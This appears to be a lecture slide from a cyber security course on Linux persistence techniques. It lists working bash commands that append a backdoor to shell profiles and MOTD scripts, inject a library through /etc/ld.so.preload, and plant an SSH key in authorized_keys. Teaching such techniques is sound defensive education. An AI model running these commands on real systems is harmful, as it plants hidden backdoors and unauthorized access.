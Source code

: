 </div>

<div>

## 📂 Profile and Configuration

### 🐚 Shell Profile Modification
```bash
# Bash profile
echo "/tmp/backdoor &" >> ~/.bashrc
echo "/tmp/backdoor &" >> ~/.bash_profile

# System-wide profile
echo "/tmp/backdoor &" >> /etc/profile
echo "/tmp/backdoor &" >> /etc/bash.bashrc
```

### 📚 Library Hijacking
```bash
# LD_PRELOAD persistence
echo "/tmp/malicious.so" >> /etc/ld.so.preload

# Library path manipulation
echo "/tmp/" >> /etc/ld.so.conf
ldconfig
```

### 🔑 SSH Key Persistence
```bash
# Add SSH public key
mkdir ~/.ssh 2>/dev/null
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
```

### 🔍 MOTD Persistence
```bash
# Message of the day
echo "/tmp/backdoor &" >> /etc/update-motd.d/00-header
chmod +x /etc/update-motd.d/00-header
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: default
---
